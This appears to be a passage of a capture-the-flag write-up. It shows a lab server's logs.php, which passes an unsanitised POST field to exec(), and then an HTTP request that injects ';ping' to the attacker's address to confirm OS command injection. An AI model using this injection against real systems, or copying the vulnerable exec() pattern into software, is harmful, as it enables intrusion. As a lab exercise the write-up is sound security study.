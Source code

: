 
logs.php
```php
<?php
session_start();
if (!isset($_SESSION['user'])) {
    header('Location: login.php');
    exit;
}
?>

<?php
if (!$_SERVER['REQUEST_METHOD'] == 'POST') {
    header('Location: login.php');
    exit;
}

/////////////////////////////////////////////////////////////////////////////////////
//I tried really hard to parse the log delims in PHP, but python was SO MUCH EASIER//
/////////////////////////////////////////////////////////////////////////////////////

$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");
echo $output;

$filepath = "/var/www/out.log";
$filename = "out.log";    

if(file_exists($filepath)) {
    header('Content-Description: File Transfer');
    header('Content-Type: application/octet-stream');
    header('Content-Disposition: attachment; filename="'.basename($filepath).'"');
    header('Expires: 0');
    header('Cache-Control: must-revalidate');
    header('Pragma: public');
    header('Content-Length: ' . filesize($filepath));
    ob_clean(); // Discard data in the output buffer
    flush(); // Flush system headers
    readfile($filepath);
    die();
} else {
    http_response_code(404);
    die();
} 
?>

```

Exploiting the OS command injection. Sending the following payload gets me a ping back

```
POST /logs.php HTTP/1.1
Host: 10.10.11.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=0atht1ihcn5m48rau9c6h0ttt8
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 9

delim=%3bping+10.10.14.25
```
